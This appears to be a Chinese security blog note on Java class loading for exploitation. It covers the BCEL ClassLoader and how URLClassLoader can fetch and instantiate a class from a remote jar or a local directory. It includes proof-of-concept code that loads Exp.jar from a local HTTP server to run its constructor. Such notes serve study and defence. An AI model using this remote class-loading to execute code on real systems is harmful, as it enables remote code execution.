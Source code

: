BCEL全名 Apache Commons BCEL,属于Apache Commons项目下的一个子项目。

BCEL库提供了一系列用于分析、创建、修改Java Class文件的API。

在Java 8u251以后，就被删除了。

BCEL包中有个`com.sun.org.apache.bcel.internal.util.ClassLoader`，她是一个ClassLoader，但是她重写了Java内置的ClassLoader#loadClass()方法

如果存在 ``字符串就进入createClass方法

![image-20231122210624839](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231122210624839.png)

![image-20231122210919476](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231122210919476.png)

![image-20231123093340173](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231123093340173.png)

总结

```java
其实BCEL和其他类加载器的区别主要是，有一个自己的加密、解密逻辑，但是最后依旧是defineClas加载字节码
$$BCEL$$ 在之前加任何字符都不会影响
```

## 利用URLClassLoader加载远程class文件

1、URL未以斜杠/结尾，则认为是一个JAR文件，使用 `JarLoader` 来寻找类，即为在Jar包中寻找`.class`文件（jar文件中直接包含class文件，可以使用命令 `jar cvf Exp.jar Exp.class` 进行打包）。

```java
import java.net.MalformedURLException;
import java.net.URL;
import java.net.URLClassLoader;

public class loadClassFile {
    public static void main(String[] args) throws MalformedURLException, ClassNotFoundException, IllegalAccessException, InstantiationException {
        URLClassLoader urlClassLoader = new URLClassLoader(new URL[]{new URL("http://127.0.0.1:8000/Exp.jar")});
        // 会加载 http://127.0.0.1:8000/Exp.jar中的Exp.class
        Class<?> exp = urlClassLoader.loadClass("Exp");
        // 触发构造函数，弹计算器
        exp.newInstance();
    }
}
```

2、URL以斜杠/结尾，且协议名是 `file` ，则使用 `FileLoader` 来寻找类，即为在本地文件系统中寻找`.class`文件。

```java
import java.net.MalformedURLException;
import java.net.URL;
import java.net.URLClassLoader;

public class loadClassFile {
    public static void main(String[] args) throws MalformedURLException, ClassNotFoundException, IllegalAccessException, InstantiationException {
        URLClassLoader urlClassLoader = new URLClassLoader(new URL[]{new URL("file:/Users/d4m1ts/d4m1ts/java/classloader/")});
        // 会加载 /Users/d4m1ts/d4m1ts/java/classloader/Exp.class
        Class<?> exp = urlClassLoader.loadClass("Exp");
        // 触发构造函数，弹计算器
        exp.newInstance();
    }
}
```
